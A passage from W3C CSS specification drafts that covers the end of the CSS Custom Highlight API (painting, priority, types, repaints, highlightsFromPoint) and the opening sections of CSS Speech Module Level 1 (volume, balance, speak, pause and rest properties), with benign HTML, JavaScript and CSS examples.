The painting of custom highlights is also handled identically to that of the built-in highlight pseudo-elements, as specified in [CSS Pseudo-Elements 4 § 3.4 Area of a Highlight](#css-pseudo-4:highlight-bounds) and [CSS Pseudo-Elements 4 § 3.6 Painting the Highlight](#css-pseudo-4:highlight-painting), with the following clarifications:

- Collapsed ranges are not rendered.
- Overlapping ranges within a single custom highlight are rendered as if a single range representing the union of the overlapping ones had been specified.

  > **Example:** The following example renders in a single highlight with semi-transparent blue background, not two overlapping ones which can be seen through each other.
  >
  > ```
  > <style>
  >   ::highlight(sample) { background-color: rgba(0, 0, 255, 0.3); }
  > </style>
  > <body>Lorem Ipsum.
  > <script>
  >   let textNode = document.body.firstChild;
  >
  >   let r1 = new Range();
  >   r1.setStart(textNode, 1);
  >   r1.setEnd(textNode, 5);
  >
  >   let r2 = new Range();
  >   r2.setStart(textNode, 3);
  >   r2.setEnd(textNode, 7);
  >
  >   CSS.highlights.set("sample", new Highlight(r1, r2));
  > </script>
  > ```
  >
  > In other words, this rendering would be correct:
  >
  > Lorem Ipsum.
  >
  > However, this one would be incorrect:
  >
  > Lorem Ipsum.
- The highlight overlays of the custom highlights are below those of the built-in highlight pseudo-elements in the stacking order described in [CSS Pseudo-Elements 4 § 3.6 Painting the Highlight](#css-pseudo-4:highlight-painting).
- The relative stacking order of the highlight overlays of multiple custom highlights is defined by their priority (see [§ 4.2.5 Priority of Overlapping Highlights](#css-highlight-api-1:priorities)).

##### 4.2.5.  Priority of Overlapping Highlights {#css-highlight-api-1:priorities}

A custom highlight’s `priority` attribute defines its **priority**. This is used to determine the stacking order of the corresponding highlight overlay during painting operations (see [§ 4.2.4 Painting](#css-highlight-api-1:painting)). A higher priority results in being above in the stacking order. A custom highlight will have a default numerical priority of 0 if its `priority` attribute has not been explicitly set.

When two or more custom highlights have the same numerical priority, the one most recently registered has the higher effective priority.

> **Example:** ```
> <style>
>   :root::highlight(foo) {
>     color:blue;
>     background-color:yellow;
>   }
>   :root::highlight(bar) {
>     background-color:orange;
>   }
> </style>
> <body>Some text
> <script>
>   let textNode = document.body.firstChild;
>
>   let r1 = new Range();
>   r1.setStart(textNode, 0);
>   r1.setEnd(textNode, 6);
>
>   let r2 = new Range();
>   r2.setStart(textNode, 3);
>   r2.setEnd(textNode, 9);
>
>   let h1 = new Highlight(r1);
>   let h2 = new Highlight(r2);
>
>   CSS.highlights.set("foo", h1);
>   CSS.highlights.set("bar", h2);
> </script>
> ```
>
> As there are no priorities set (i.e. there is a tie between `h1` and `h2`), the custom highlights' styles are stacked in order of insertion into the highlight registry. The rendered results will have "Som" with blue text on yellow background, "e t" with blue text on orange background, and "ext" with the default color on orange background.
>
> Some text
>
> Setting `h1.priority = 1;` would cause `h1` to stack higher than `h2`, which would result in "Some t" being blue on yellow, and "ext" being default color on orange.
>
> Some text

##### 4.2.6.  Highlight types {#css-highlight-api-1:highlight-types}

A custom highlight’s `type` attribute is used by authors to specify the semantic meaning of the highlight. This allows assistive technologies to include this meaning when exposing the highlight to users.

A custom highlight will have a default type of `highlight` if its `type` attribute has not been explicitly set.

> **Note:** Authors are advised to set a custom highlight’s `type` to `spelling-error` when that custom highlight is being used to emphasize misspelled content. Authors are advised to set a custom highlight’s `type` to `grammar-error` when that custom highlight is being used to emphasize content that is grammatically incorrect. For all other use cases `type` is best left as `highlight`.

UAs should make custom highlights available to assistive technologies. When exposing a highlight using a given platform accessibility API, UAs should expose the semantic meaning of the highlight as specified by its `type` attribute with as much specificity as possible for that accessibility API.

> **Note:** For example, if a platform accessibility API has the capability to express spelling errors and grammar errors specifically, then UAs is expected to use these capabilities to convey the semantics for highlights with `spelling-error` and `spelling-error`. If an accessibility API only has the capability to express spelling errors, then UAs would be expected to convey both highlights with `spelling-error` and with `grammar-error` using spelling error semantics. If an accessibility API has support for expressing neither spelling errors nor grammar errors, then UAs would expose all highlights as generic `highlight` regardless of their actual `type`.

> **Note:** This initial set of types was chosen because they are expected to be popular use cases for Highlight API and there is some existing support for expressing their semantics in platform accessibility APIs today. Accessibility APIs currently don’t have any way to express the specific semantics of other expected Highlight API use cases. More types could later be added to `HighlightType` as accessibility APIs gain support for expressing additional popular use cases of Highlight API.

### 5.  Responding to Changes {#css-highlight-api-1:responding-to-changes}

#### 5.1.  Repaints {#css-highlight-api-1:repaint}

The addition or removal of a custom highlight in the highlight registry, or of a range in a registered custom highlight, must cause the user agent to reevaluate the rendering, and to repaint if appropriate.

The user agent must also repaint highlights as needed in response to changes by the author to the `priority`, or to the boundary points of `Range`s of a registered custom highlight.

This repaint is asynchronous, and the APIs mentioned above must not block while waiting for the repaint to happen.

#### 5.2.  Range Updating and Invalidation {#css-highlight-api-1:range-invalidation}

Authors can build custom highlights using either `Range`s or `StaticRange`s.

The resulting custom highlight represents the same parts of the document, and can be styled identically. However, the behavior is different in case the underlying document is modified.

`Range`s are live ranges. The user agent will adjust the boundary points of `Range`s in response to DOM changes overlapping the range or at its boundary, and [repaint](#css-highlight-api-1:repaint) accordingly. Boundary points of live ranges can also be changed by the author.

On the other hand, the user agent must not adjust the boundary points of `StaticRange`s in response to DOM changes, nor can they be modified by the author after creation. The user agent is expected to store the actual `StaticRange`s, rather than backing them up with live `Range`s.

> **Advisement:** Updating all `Range` objects as the DOM is modified has a significant performance cost. Authors who intend to observe DOM changes and react to them by adjusting or recreating the ranges in their custom highlights are strongly encouraged to use `StaticRange`s in order to avoid this costly but unnecessary step.
>
> Conversely, authors who use `StaticRange`s should observe and react to DOM changes, by discarding stale ranges or custom highlights and recreating new ones.

When computing how to render a document, if start node or end node of any range in the highlight registry associated with that document’s window refer to a `Node` whose shadow-including root is not that document, the user agent must ignore that range. If any `StaticRange` in the highlight registry associated with that document’s window is not valid, the user agent must ignore that range.

### 6.  Interacting with Custom Highlights {#css-highlight-api-1:interactions}

The `highlightsFromPoint`(*x*, *y*, *options*) method allows developers to build scenarios involving user interaction with custom highlights. The method returns a sequence containing `HighlightHitResult` objects which encapsulate the custom highlights and their ranges that are hit at a given *x*, *y* coordinate. This sequence is ordered by descending order of priority of its `HighlightHitResult`’s highlights. By default, custom highlights in a shadow tree are not returned, but the developer has the possibility to pass in an optional *options* dictionary with a *shadowRoots* property containing a sequence of `ShadowRoot` objects. Highlights contained within a shadow tree provided in this way will be returned.

> **Example:** The following example shows a way to use `highlightsFromPoint` to interact with mouse click events.
>
> ```
> <style>
>   :root::highlight(foo) {
>     background-color:yellow;
>   }
>   :root::highlight(bar) {
>     color:red;
>   }
> </style>
> <body>abcd
> <script>
>   document.addEventListener('click', (event) => {
>     const mouseX = event.clientX;
>     const mouseY = event.clientY;
>     console.log(CSS.highlights.highlightsFromPoint(mouseX, mouseY));
>   });
>
>   let textNode = document.body.firstChild;
>   let r1 = new Range();
>   r1.setStart(textNode, 0);
>   r1.setEnd(textNode, 2);
>   let r2 = new Range();
>   r2.setStart(textNode, 1);
>   r2.setEnd(textNode, 2);
>   let r3 = new Range();
>   r3.setStart(textNode, 3);
>   r3.setEnd(textNode, 4);
>
>   let h1 = new Highlight(r1, r3);
>   let h2 = new Highlight(r2);
>   h1.priority = 1;
>   h2.priority = 2;
>
>   CSS.highlights.set("foo", h1);
>   CSS.highlights.set("bar", h2);
> </script>
> ```
>
> The code above will display the following styled text, note that "b" is affected by both highlights *h1* and *h2*, whereas "a" and "d" are only affected by *h1*:
>
> abcd
>
> In this example there’s an event listener set on click events that logs the custom highlights and their ranges present at the point where the click was made. The following sequences are some examples of what will be printed to console after a click:
>
> - `[ HighlightHitResult {highlight: h1, ranges: [r1]} ]`, if the user clicks on character "a". Note that only *r1* is included in the `HighlightHitResult` returned since that’s the only range in *h1* that was hit.
> - `[ HighlightHitResult {highlight: h2, ranges: [r2]}, HighlightHitResult {highlight: h1, ranges: [r1]} ]`, if the user clicks on character "b", as *h2* has higher priority than *h1*.
> - `[]`, if the user clicks on character "c".
> - `[ HighlightHitResult {highlight: h1, ranges: [r3]} ]`, if the user clicks on character "d".

The method `highlightsFromPoint` is defined as part of the `HighlightRegistry` interface as follows:

```webidl
partial interface HighlightRegistry {
  sequence<HighlightHitResult> highlightsFromPoint(float x, float y, optional HighlightsFromPointOptions options = {});
};

dictionary HighlightHitResult {
  Highlight highlight;
  sequence<AbstractRange> ranges;
};

dictionary HighlightsFromPointOptions {
  sequence<ShadowRoot> shadowRoots = [];
};
```

The **`highlightsFromPoint(x, y, options)`** method must return the result of running these steps:

1. If any of the following are true, return the empty sequence:

  - *x* is negative
  - *y* is negative
  - *x* is greater than the viewport width excluding the size of a rendered scroll bar (if any)
  - *y* is greater than the viewport height excluding the size of a rendered scroll bar (if any)
  - The topmost box in the viewport in paint order that would be a target for hit testing at coordinates *x*,*y* when applying the transforms that apply to the descendants of the viewport, has an element associated to it that’s in a shadow tree whose shadow root is not contained by *options*.*shadowRoots*.
2. Otherwise, let *results* be an empty sequence.
3. For each `Highlight` *highlight* in this `HighlightRegistry`:

  1. Let *result* be a new `HighlightHitResult` with `highlight` set to *highlight*.
  2. For each `AbstractRange` *abstractRange* in *highlight*:

    1. If *abstractRange* is an invalid `StaticRange`, then continue.
    2. Let *range* be a new `Range` whose start node and end node are set to *abstractRange*’s start node and end node respectively, and start offset and end offset are set to *abstractRange*’s start offset and end offset respectively.
    3. If the coordinates *x*,*y* fall inside at least one of the `DOMRect`s returned by calling `getClientRects()` on *range*, then append *abstractRange* to *result*.`ranges`.

       > **Note:** The specifics of hit testing are out of scope of this specification and therefore the exact details of `highlightsFromPoint()` are too. Hit testing will hopefully be defined in a future revision of CSS or HTML.
  3. If *result*.`ranges` is not empty, append *result* to *results*.
4. Sort *results* by descending order of priority of its `HighlightHitResult`s' `highlight` attributes.
5. Return *results*.

### 7.  Event Handling {#css-highlight-api-1:events}

> **Issue:** Section on Events TBD, based on https://github.com/MicrosoftEdge/MSEdgeExplainers/blob/master/highlight/events-explainer.md

> **Issue:** should custom highlights have a dedicated event handling mechanism, or should that be added to pseudo-elements in general?

---

## CSS Speech Module Level 1 {#css-speech-1}

- **Shortname:** `css-speech-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-speech-1/](https://drafts.csswg.org/css-speech-1/)
- **Published TR:** [https://www.w3.org/TR/css-speech-1/](https://www.w3.org/TR/css-speech-1/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-07-02

### 1.  Introduction, design goals {#css-speech-1:intro}

*This section is non-normative.*

The aural presentation of information is commonly used by people who are blind, visually-impaired, or otherwise print-disabled. For instance, “screen readers” allow users to interact with visual interfaces that would otherwise be inaccessible to them. There are also circumstances in which *listening* to content (as opposed to *reading*) is preferred, or sometimes even required, irrespective of a person’s physical ability to access information. For instance: playing an e-book whilst driving a vehicle, learning how to manipulate industrial and medical devices, interacting with home entertainment systems, teaching young children how to read.

The CSS properties defined in this Speech module enable authors to declaratively control the presentation of a document in the aural dimension. The aural rendering of a document combines speech synthesis (also known as “TTS”, the acronym for “Text to Speech”) and auditory icons (which are referred-to as “audio cues” in this specification). The CSS Speech properties provide the ability to control speech pitch and rate, sound levels, TTS voices, etc. These stylesheet properties can be used together with visual properties (mixed media), or as a complete aural alternative to a visual presentation.

### 2.  Background information, CSS 2.1 {#css-speech-1:background}

*This section is non-normative.*

The CSS Speech module is a re-work of the informative [CSS2.1 Aural appendix](#css2), within which the `aural` media type was described, but also deprecated (in favor of the `speech` media type, which has now also been deprecated). Although the [CSS2] specification reserved the `speech` media type, it didn’t actually define the corresponding properties. The Speech module describes the CSS properties that apply to speech output, and defines a new “box” model specifically for the aural dimension.

Content creators can include CSS properties for user agents with text to speech synthesis capabilities for any media type - though generally, they will only make sense for `all` and `screen`. These styles are simply ignored by user agents that do not support the Speech module.

### 3.  Relationship with SSML {#css-speech-1:ssml-rel}

*This section is non-normative.*

Some of the features in this specification are conceptually similar to functionality described in the Speech Synthesis Markup Language (SSML) Version 1.1 [SSML]. However, the specificities of the CSS model mean that compatibility with SSML in terms of syntax and/or semantics is only partially achievable. The definition of each property in the Speech module includes informative statements, wherever necessary, to clarify their relationship with similar functionality from SSML.

#### 3.1.  Value Definitions {#css-speech-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 4.  Example {#css-speech-1:example}

> **Example:** This example shows how authors can tell the speech synthesizer to speak HTML headings with a voice called "paul", using "moderate" emphasis (which is more than normal) and how to insert an audio cue (pre-recorded audio clip located at the given URL) before the start of TTS rendering for each heading. In a stereo-capable sound system, paragraphs marked with the CSS class `heidi` are rendered on the left audio channel (and with a female voice, etc.), whilst the class `peter` corresponds to the right channel (and to a male voice, etc.). The volume level of text spans marked with the class `special` is lower than normal, and a prosodic boundary is created by introducing a strong pause after it is spoken (note how the `span` inherits the voice-family from its parent paragraph).
>
> ```
> h1, h2, h3, h4, h5, h6 {
>   voice-family: paul;
>   voice-stress: moderate;
>   cue-before: url(../audio/ping.wav);
>   voice-volume: medium 6dB;
> }
> p.heidi {
>   voice-family: female;
>   voice-balance: left;
>   voice-pitch: high;
>   voice-volume: -6dB;
> }
> p.peter {
>   voice-family: male;
>   voice-balance: right;
>   voice-rate: fast;
> }
> span.special {
>   voice-volume: soft;
>   pause-after: strong;
> }
>
> ...
>
> <h1>I am Paul, and I speak headings.</h1>
> <p class="heidi">Hello, I am Heidi.</p>
> <p class="peter">
>   <span class="special">Can you hear me ?</span>
>   I am Peter.
> </p>
> ```

### 5.  The aural formatting model {#css-speech-1:aural-model}

The CSS formatting model for aural media is based on a sequence of sounds and silences that occur within a nested context similar to the [visual box model](#css-box-4:box-model), which we name the **aural “box” model**. The aural “canvas” consists of a two-channel (stereo) space and of a temporal dimension, within which synthetic speech and audio cues coexist. The selected element is surrounded by `rest`, `cue` and `pause` properties (from the innermost to the outermost position). These can be seen as aural equivalents to `padding`, `border` and `margin`, respectively. When used, the `::before` and `::after` pseudo-elements [CSS2] get inserted between the element’s contents and the `rest`.

The following diagram illustrates the equivalence between properties of the visual and aural box models, applied to the selected <element>:


### 6.  Mixing properties {#css-speech-1:mixing-props}

#### 6.1.  The `voice-volume` property {#css-speech-1:mixing-props-voice-volume}

| Field | Value |
| --- | --- |
| Name: | **voice-volume** |
| [Value:](#css-values-4:value-defs) | silent \| [ [ x-soft \| soft \| medium \| loud \| x-loud ] \|\| `<decibel>` ] |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | `silent`, or a keyword value and optionally also a decibel offset (if not zero) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `voice-volume` property allows authors to control the amplitude of the audio waveform generated by the speech synthesizer, and is also used to adjust the relative volume level of [audio cues](#css-speech-1:cue-props) within the aural box model of the selected element.

> **Note:** Although the functionality provided by this property is similar to the [`volume` attribute of the `prosody` element](https://www.w3.org/TR/speech-synthesis11/#edef_prosody) from the SSML markup language [SSML], there are notable discrepancies. For example, CSS Speech volume keywords and decibels units are not mutually-exclusive, due to how values are inherited and combined for selected elements.

****silent****

: Specifies that no sound is generated (the text is read "silently").

  > **Note:** This has the same effect as using negative infinity decibels. Also note that there is a difference between an element whose `voice-volume` property has a value of `silent`, and an element whose `speak` property has the value `none`. With the former, the selected element takes up the same time as if it was spoken, including any pause before and after the element, but no sound is generated (and descendants within the aural box model of the selected element can override the `voice-volume` value, and may therefore generate audio output). With the latter, the selected element is not rendered in the aural dimension and no time is allocated for playback (descendants within the aural box model of the selected element can override the `speak` value, and may therefore generate audio output).

****x-soft**, **soft**, **medium**, **loud**, **x-loud****

: This sequence of keywords corresponds to monotonically non-decreasing volume levels, mapped to implementation-dependent values that meet the listener’s requirements with regards to perceived loudness. These audio levels are typically provided via a preference mechanism that allow users to calibrate sound options according to their auditory environment. The keyword `x-soft` maps to the user’s *minimum audible* volume level, `x-loud` maps to the user’s *maximum tolerable* volume level, `medium` maps to the user’s *preferred* volume level, `soft` and `loud` map to intermediary values.

****`<decibel>`****

: This represents a change (positive or negative) relative to the given keyword value (see enumeration above), or to the default value for the root element, or otherwise to the inherited volume level (which may itself be a combination of a keyword value and decibel offset, in which case the decibel values are combined additively). When the inherited volume level is `silent`, this `voice-volume` resolves to `silent` too, regardless of the specified `<decibel>` value.

  The **`<decibel>`** type denotes a dimension with a "dB" (decibel unit) unit identifier. Decibels represent the ratio of the squares of the new signal amplitude *a1* and the current amplitude *a0*, as per the following logarithmic equation: volume(dB) = 20 × log10(*a1* / *a0*).

  > **Note:** -6.0dB is approximately half the amplitude of the audio signal, and +6.0dB is approximately twice the amplitude.

> **Note:** Perceived loudness depends on various factors, such as the listening environment, user preferences or physical abilities. The effective volume variation between `x-soft` and `x-loud` represents the dynamic range (in terms of loudness) of the audio output. Typically, this range would be compressed in a noisy context, i.e. the perceived loudness corresponding to `x-soft` would effectively be closer to `x-loud` than it would be in a quiet environment. There may also be situations where both `x-soft` and `x-loud` would map to low volume levels, such as in listening environments requiring discretion (e.g. library, night-reading).

#### 6.2.  The `voice-balance` property {#css-speech-1:mixing-props-voice-balance}

| Field | Value |
| --- | --- |
| Name: | **voice-balance** |
| [Value:](#css-values-4:value-defs) | `<number>` \| left \| center \| right \| leftwards \| rightwards |
| [Initial:](#css-cascade-6:initial-values) | center |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the specified value resolved to a <number> between `-100` and `100` (inclusive) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `voice-balance` property controls the spatial distribution of audio output across a lateral sound stage: one extremity is on the left, the other extremity is on the right hand side, relative to the listener’s position. Authors can specify intermediary steps between left hand right extremities, to represent the audio separation along the resulting left-right axis.

> **Note:** The functionality provided by this property has no match in the SSML markup language [SSML].

****`<number>`****

: A number between `-100` and `100` (inclusive). Values smaller than `-100` are clamped to `-100`. Values greater than `100` are clamped to `100`. The value `-100` represents the left side, and the value `100` represents the right side. The value `0` represents the center point whereby there is no discernible audio separation between left and right sides. (In a stereo sound system, this corresponds to equal distribution of audio signals between left and right speakers).

****left****

: Same as `-100`.

****center****

: Same as `0`.

****right****

: Same as `100`.

****leftwards****

: Moves the sound to the left by subtracting 20 from the inherited `voice-balance` value (and by clamping the resulting number to `-100`).

****rightwards****

: Moves the sound to the right, by adding 20 to the inherited `voice-balance` value (and by clamping the resulting number to `100`).

User agents can be connected to different kinds of sound systems, featuring varying audio mixing capabilities. The expected behavior for mono, stereo, and surround sound systems is defined as follows:

- When user agents produce audio via a mono-aural sound system (i.e. single-speaker setup), the `voice-balance` property has no effect.
- When user agents produce audio through a stereo sound system (e.g. two speakers, or a pair of headphones), the left-right distribution of audio signals can precisely match the authored values for the `voice-balance` property.
- When user agents are capable of mixing audio signals through more than 2 channels (e.g. 5-speakers surround sound system, including a dedicated center channel), the physical distribution of audio signals resulting from the application of the `voice-balance` property should be performed so that the listener perceives sound as if it was coming from a basic stereo layout. For example, the center channel as well as the left/right speakers may be used all together in order to emulate the behavior of the `center` value.

Future revisions of the CSS Speech module may include support for three-dimensional audio, which would effectively enable authors to specify “azimuth” and “elevation” values. In the future, content authored using the current specification may therefore be consumed by user agents which are compliant with the version of CSS Speech that supports three-dimensional audio. In order to prepare for this possibility, the values enabled by the current `voice-balance` property are designed to remain compatible with “azimuth” angles. More precisely, the mapping between the current left-right audio axis (lateral sound stage) and the envisioned 360 degrees plane around the listener’s position is defined as follows:

- The value `0` maps to zero degrees (`center`). This is in "front" of the listener, not from "behind".
- The value `-100` maps to -40 degrees (`left`). Negative angles are in the counter-clockwise direction (assuming the audio stage is seen from the top).
- The value `100` maps to 40 degrees (`right`). Positive angles are in the clockwise direction (assuming the audio stage is seen from the top).
- Intermediary values on the scale from `100` to `100` map to the angles between -40 and 40 degrees in a numerically linearly-proportional manner. For example, `-50` maps to -20 degrees.

> **Note:** Sound systems can be configured by users in such a way that it would interfere with the left-right audio distribution specified by document authors. Typically, the various “surround” modes available in modern sound systems (including systems based on basic stereo speakers) tend to greatly alter the perceived spatial arrangement of audio signals. The illusion of a three-dimensional sound stage is often achieved using a combination of phase shifting, digital delay, volume control (channel mixing), and other techniques. Some users may even configure their system to “downgrade” any rendered sound to a single mono channel, in which case the effect of the `voice-balance` property would obviously not be perceivable at all. The rendering fidelity of authored content is therefore dependent on such user customizations, and the `voice-balance` property merely specifies the desired end-result.

> **Note:** Many speech synthesizers only generate mono sound, and therefore do not intrinsically support the `voice-balance` property. The sound distribution along the left-right axis consequently occurs at post-synthesis stage (when the speech-enabled user agent mixes the various audio sources authored within the document)

### 7.  Speaking properties {#css-speech-1:speaking-props}

#### 7.1.  The `speak` property {#css-speech-1:speaking-props-speak}

| Field | Value |
| --- | --- |
| Name: | **speak** |
| [Value:](#css-values-4:value-defs) | auto \| never \| always |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `speak` property determines whether or not to render text aurally.

> **Note:** The functionality provided by this property has no match in the SSML markup language [SSML].

****auto****

: Resolves to a computed value of `never` when `display` is `none`, otherwise resolves to a computed value of `auto`. The used value of a computed `auto` is equivalent to `always` if `visibility` is `visible` and to `never` otherwise.

  > **Note:** The `none` value of the `display` property cannot be overridden by descendants of the selected element, but the `auto` value of `speak` can, however, be overridden using either of `never` or `always`.

****never****

: This value causes an element (including pauses, cues, rests and actual content) to not be rendered (i.e., the element has no effect in the aural dimension).

  > **Note:** Any of the descendants of the affected element are allowed to override this value, so descendants can actually take part in the aural rendering despite using `display: none` at this level. However, the pauses, cues, and rests of the ancestor element remain “deactivated” in the aural dimension, and therefore do not contribute to the [collapsing of pauses](#css-speech-1:collapsed-pauses) or additive behavior of adjoining rests.

****always****

: The element is rendered aurally (regardless of its `display` value, or the `display` or `speak` values of its ancestors).

  > **Note:** Using this value can result in the element being rendered in the aural dimension even though it would not be rendered on the visual canvas.

#### 7.2.  The `speak-as` property {#css-speech-1:speaking-props-speak-as}

| Field | Value |
| --- | --- |
| Name: | **speak-as** |
| [Value:](#css-values-4:value-defs) | normal \| spell-out \|\| digits \|\| [ literal-punctuation \| no-punctuation ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `speak-as` property determines in what manner text gets rendered aurally, based upon a predefined list of possibilities.

> **Note:** The functionality provided by this property is conceptually similar to the [`say-as` element](https://www.w3.org/TR/speech-synthesis11/#edef_say-as) from the SSML markup language [SSML] (whose possible values are described in the [SSML-SAYAS] W3C Note). Although the design goals are similar, the CSS model is limited to a basic set of pronunciation rules.

****normal****

: Uses language-dependent pronunciation rules for rendering the element’s content. For example, punctuation is not spoken as-is, but instead rendered naturally as appropriate pauses.

****spell-out****

: Spells the text one letter at a time (useful for acronyms and abbreviations). In languages where accented characters are rare, it is permitted to drop accents in favor of alternative unaccented spellings. As an example, in English, the word “rôle” can also be written as “role”. A conforming implementation would thus be able to spell-out “rôle” as “R O L E”.

****digits****

: Speak numbers one digit at a time, for instance, “twelve” would be spoken as “one two”, and “31” as “three one”.

  > **Note:** Speech synthesizers are knowledgeable about what a *number* is. The `speak-as` property enables some level of control on how user agents render numbers, and may be implemented as a preprocessing step before passing the text to the actual speech synthesizer.

****literal-punctuation****

: Punctuation such as semicolons, braces, and so on is named aloud (i.e. spoken literally) rather than rendered naturally as appropriate pauses.

****no-punctuation****

: Punctuation is not rendered: neither spoken nor rendered as pauses.

### 8.  Pause properties {#css-speech-1:pause-props}

#### 8.1.  The `pause-before` and `pause-after` properties {#css-speech-1:pause-props-pause-before-after}

| Field | Value |
| --- | --- |
| Name: | **pause-before**, **pause-after** |
| [Value:](#css-values-4:value-defs) | `<time [0s,∞]>` \| none \| x-weak \| weak \| medium \| strong \| x-strong |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `pause-before` and `pause-after` properties specify a prosodic boundary (silence with a specific duration) that occurs before (or after) the speech synthesis rendition of the element, or if any `cue-before` (or `cue-after`) is specified, before (or after) the cue within the aural box model.

Note Although the functionality provided by this property is similar to the [`break` element](https://www.w3.org/TR/speech-synthesis11/#edef_break) from the SSML markup language [SSML], the application of `pause` prosodic boundaries within the aural box model of CSS Speech requires special considerations (e.g. ["collapsed" pauses](#css-speech-1:collapsed-pauses)).

****`<time [0s,∞]>`****

: Expresses the pause in absolute time units (seconds and milliseconds, e.g. "+3s", "250ms"). Only non-negative values are allowed.

****none****

: Equivalent to 0ms (no prosodic break is produced by the speech processor).

****x-weak**, **weak**, **medium**, **strong**, and **x-strong****

: Expresses the pause by the strength of the prosodic break in speech output. The exact time is implementation-dependent. The values indicate monotonically non-decreasing (conceptually increasing) break strength between elements.

> **Note:** Stronger content boundaries are typically accompanied by pauses. For example, the breaks between paragraphs are typically much more substantial than the breaks between words within a sentence.

> **Example:** This example illustrates how the default strengths of prosodic breaks for specific elements (which are defined by the user agent stylesheet) can be overridden by authored styles.
>
> ```
> p { pause: none } /* pause-before: none; pause-after: none */
> ```

#### 8.2.  The `pause` shorthand property {#css-speech-1:pause-props-pause}

| Field | Value |
| --- | --- |
| Name: | **pause** |
| [Value:](#css-values-4:value-defs) | `<'pause-before'>` `<'pause-after'>`? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `pause` property is a shorthand property for `pause-before` and `pause-after`. If two values are given, the first value is `pause-before` and the second is `pause-after`. If only one value is given, it applies to both properties.

> **Example:** s of property values:
>
> ```
> h1 { pause: 20ms; } /* pause-before: 20ms; pause-after: 20ms */
> h2 { pause: 30ms 40ms; } /* pause-before: 30ms; pause-after: 40ms */
> h3 { pause-after: 10ms; } /* pause-before: unspecified; pause-after: 10ms */
> ```

#### 8.3.  Collapsing pauses {#css-speech-1:collapsed-pauses}

The pause defines the minimum distance of the aural "box" to the aural "boxes" before and after it. Adjoining pauses are merged by selecting the strongest named break and the longest absolute time interval. For example, "strong" is selected when merging "strong" and "weak", "1s" is selected when merging "1s" and "250ms", and "strong" and "250ms" take effect additively when merging "strong" and "250ms".

The following pauses are adjoining:

- The `pause-after` of an aural "box" and the `pause-after` of its last child, provided the former has no `rest-after` and no `cue-after`.
- The `pause-before` of an aural "box" and the `pause-before` of its first child, provided the former has no `rest-before` and no `cue-before`.
- The `pause-after` of an aural "box" and the `pause-before` of its next sibling.
- The `pause-before` and `pause-after` of an aural "box", if the "box" has a `voice-duration` of "0ms" and no `rest-before` or `rest-after` and no `cue-before` or `cue-after`, or if the "box" has no rendered content at all (see `speak`).

A collapsed pause is considered adjoining to another pause if any of its component pauses is adjoining to that pause.

> **Note:** `pause` has been moved from between the element’s contents and any `cue` to outside the `cue`. This is not backwards compatible with the informative CSS2.1 Aural appendix [CSS2].

### 9.  Rest properties {#css-speech-1:rest-props}

#### 9.1.  The `rest-before` and `rest-after` properties {#css-speech-1:rest-props-rest-before-after}

| Field | Value |
| --- | --- |
| Name: | **rest-before**, **rest-after** |
| [Value:](#css-values-4:value-defs) | `<time [0s,∞]>` \| none \| x-weak \| weak \| medium \| strong \| x-strong |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `rest-before` and `rest-after` properties specify a prosodic boundary (silence with a specific duration) that occurs before (or after) the speech synthesis rendition of an element within the aural box model.

